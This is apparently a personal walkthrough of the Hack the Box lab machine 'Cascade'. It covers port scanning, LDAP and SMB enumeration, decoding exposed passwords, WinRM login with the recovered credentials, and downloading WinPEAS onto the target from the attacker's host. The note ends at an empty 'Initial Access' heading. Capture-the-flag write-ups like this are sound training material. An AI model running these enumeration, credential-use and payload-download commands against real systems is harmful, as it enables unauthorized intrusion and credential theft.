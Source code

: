 ```yaml
---
title: Cascade - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cascade.png
---
```

### Scan
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```
### Enumeration
no zone transfer
no smb (map or client)
enum4linux users hit (via rpcclient) ![Image](/assets/Screenshot 2024-09-16 at 1.37.17 PM.png)
group hit (via rpcclient)![Image](/assets/Screenshot 2024-09-16 at 1.39.11 PM.png)
Password Policy Info ![Image](/assets/Screenshot 2024-09-16 at 1.37.53 PM.png)
Dump users into a file, grep and clean, then use script to asrep roast.
ASREP roast came back with nothing.
weak password policy, want to try and crack... Too much. Enumerate thoroughly, exploit simply. I'm missing something
LDAP dump with `ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182`
Reallllllly look. Ryan encoded password. Looks like BASE64 ![Image](/assets/Screenshot 2024-09-16 at 2.20.37 PM.png)
Decode with online decoder, password is `rY4n5eva`
Time to re-enumerate shares with `smbmap -H cascade.htb -u "user" -p "pass"`
![Image](/assets/Screenshot 2024-09-16 at 2.32.54 PM.png)
Only share we have access to is IT. Interesting email, log files, but really interesting s.smith files
![Image](/assets/Screenshot 2024-09-16 at 2.40.59 PM.png)
Email disclosing TempAdmin w/ possible brute password ![Image](/assets/Screenshot 2024-09-16 at 2.42.21 PM.png)
Hex password and possible VNC service escalation![Image](/assets/Screenshot 2024-09-16 at 2.49.23 PM.png)
Regular hex decoding didn't work, but there is a VNC decrypt tool for it. Which other box used this?
Encode and create the crackable file, as the tool only takes ciphertext: `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc.psd`
`sT333ve2` Password ![Image](/assets/Screenshot 2024-09-16 at 3.08.13 PM.png)
We've got two sets of credentials now.  `s.smith:sT333ve2` and `r.thompson:rY4n5eva`
Re-Enumerate
Steve's credentials grant us access to Audit$ share (smbmap script like above)![Image](/assets/Screenshot 2024-09-16 at 3.12.16 PM.png)
Gain access by `smbclient //10.10.10.182/Audit$ --user s.smith%sT333ve2`
Download two files![Image](/assets/Screenshot 2024-09-16 at 3.19.16 PM.png)
evilwinrm as smith `evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'`![Image](/assets/Screenshot 2024-09-16 at 3.20.01 PM.png)
Local Proof![Image](/assets/Screenshot 2024-09-16 at 3.21.01 PM.png)
`USER:8685e71cafb4e133d985dc08c223401c`

Big Oof trying to transfer with SMB and CertUtil. Crashed box twice. Python worked though. Serve WinPEAS
`powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.3:80/winPEASany.exe -OutFile winPEAS.exe`

Serve bloodhound ingester remotely as well. `bloodhound-python -d cascade.local -u s.smith -p sT333ve2 -ns 10.10.10.182 -c all`

Nothing from bloodhound as far as I can tell. WinPEAS?






### Initial Access
